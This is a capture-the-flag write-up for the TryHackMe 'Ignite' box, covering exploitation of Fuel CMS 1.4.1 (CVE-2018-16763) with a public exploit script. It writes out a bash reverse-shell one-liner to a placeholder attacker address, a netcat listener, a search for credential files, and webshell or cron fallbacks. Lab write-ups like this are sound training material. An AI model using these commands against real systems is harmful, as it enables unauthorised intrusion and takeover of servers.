







# 📝 Writeup – Ignite (TryHackMe)

---

## TL;DR
Found Fuel CMS 1.4.1 on port 80 (vulnerable to CVE-2018-16763). Used the public Python exploit to achieve pre-auth Remote Code Execution, spawned a reverse shell, grabbed the user flag, found a DB/config with credentials, and used those to get root. Clean & quick. 😎

---

## ENUMERATION
Start with the usual:

```bash
nmap -p- --min-rate 2000 -vv -T4 <IP>
````

Narrow down to HTTP:

```bash
nmap -p80 -sC -sV -vv -oN scan.nmap <IP>
```

Screenshot:


Nmap (and manual browsing) revealed a Fuel CMS powered site. I ran `searchsploit` to check for known issues.

---

## FUEL CMS 1.4.1 — The Vulnerability (short & clear)

Fuel CMS 1.4.1 contains a **pre-auth PHP code evaluation** bug: certain endpoints accept user-supplied parameters (`pages/select` → `filter` and `preview` → `data`) which are not properly sanitized and can be abused to evaluate PHP code, leading to Remote Code Execution (RCE) without authentication. In practice, this means you can send crafted input to those endpoints and get the server to execute code you control.

Why that’s bad: if an app evaluates or includes user-controlled content (directly or via a bad filter/preview function), attackers can cause the server to run arbitrary PHP — which is how we get shells. Multiple public PoCs and exploit scripts exist for this specific vuln (Exploit-DB / GitHub repos).

---

## UNDERSTANDING THE EXPLOIT (how it actually works)

High-level mechanics (no heavy theory, just the practical gist):

1. The application exposes endpoints that accept text meant for preview or filtering. Those endpoints end up feeding that text into code paths that evaluate or include it without proper sanitization.
2. The exploit sends specially crafted payloads in the vulnerable parameter. The server treats that payload as code/data and ends up evaluating it (or including a chain that evaluates it).
3. Once PHP code runs on the server, we can run `system()`/`exec()`/backdoors — e.g. trigger a reverse shell or write a webshell.

So the exploit is a **pre-auth code evaluation**: send payload → server runs it → attacker gets RCE. For this box we used a public Python exploit that automates the payload and returns command output.

---

## EXPLOITATION (what I ran)

I used the public exploit script (from Exploit-DB). Example invocation I ran:

```bash
# use searchsploit to find known exploits
searchsploit Fuel CMS

# run the exploit (target is the site URL)
python3 /usr/share/exploitdb/exploits/php/webapps/50477.py -u http://<IP>
```
Screenshot of searchsploit:      
     
Screenshot of exploit output:


The script lets you execute commands remotely — so I ran a reverse-shell command from the exploit output:

```bash
# on attacker machine: listener
nc -nvlp <PORT>

# from exploit (execute this command on target)
bash -c "bash -i >& /dev/tcp/<ATTACK_IP>/<PORT> 0>&1"
```

Listener popped a shell and we were `www-data` . From there I grabbed the user flag.      
Screenshot:      


---

## Post-exploitation → root

I didn’t find any usable SUID binaries nor any obvious sudo misconfig for the user. So I searched for database/config files that sometimes contain credentials:

```bash
find / -name "*database*" 2>/dev/null
```     

      
Found a config/database file with credentials that included a password. Using those creds I was able to directly `su` into root . Example flow I did:

1. Get a proper tty (so `su` works cleanly):

```bash
python3 -c "import pty; pty.spawn('/bin/bash')"
```

2. `su` into root using the found password. Final root screenshot:
   

---

## Notes, gotchas & tips

* Fuel CMS CVE-2018-16763 is well-documented; there are multiple PoCs. If one exploit fails, try another fork or tweak payload encoding.
* If the exploit seems to execute but you don’t get a shell, try a simple command like `id` or `whoami` via the exploit to confirm command execution before attempting a reverse shell.
* Some exploit scripts expect HTTP vs. HTTPS or different paths — double-check base URL and ensure trailing slashes match the script’s expectations.
* If reverse shell fails because outbound connection blocked, try writing a webshell and interacting via HTTP or write a cron job.

---

## References

* NVD / CVE-2018-16763 description (PHP code evaluation via `pages/select` filter or `preview` data).

---

## Final words

Fuel CMS 1.4.1 RCE is a classic pre-auth code evaluation — nasty and loud if the server uses those preview/include paths. This box was an easy one once you find the right exploit. Repo has screenshots of the exploit run, user flag, and root confirmation.


